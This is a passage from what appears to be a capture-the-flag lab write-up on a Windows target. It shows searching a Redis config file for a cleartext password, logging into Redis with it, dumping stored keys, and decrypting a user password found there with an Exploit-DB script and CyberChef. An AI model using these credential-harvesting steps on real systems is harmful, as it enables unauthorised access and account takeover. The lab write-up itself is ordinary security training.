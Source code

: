 Reading writeup's I found that we can find cleartext password in redis config file for redis service:

```
cd C:\Program Files\redis>
cat redis.windows-service.conf | findstr requirepass
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920165517.png)

Now connect to redis service and dump database

```
redis-cli -h 10.10.10.237
auth kidvscat_yes_kidvscat
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920171215.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920171008.png)

```
keys *
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```

And we got same encrypted password which we also crack manual method first from base64 and then des with parameters (which we can find in same script)
https://www.exploit-db.com/exploits/49409
https://gchq.github.io/CyberChef/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920171402.png)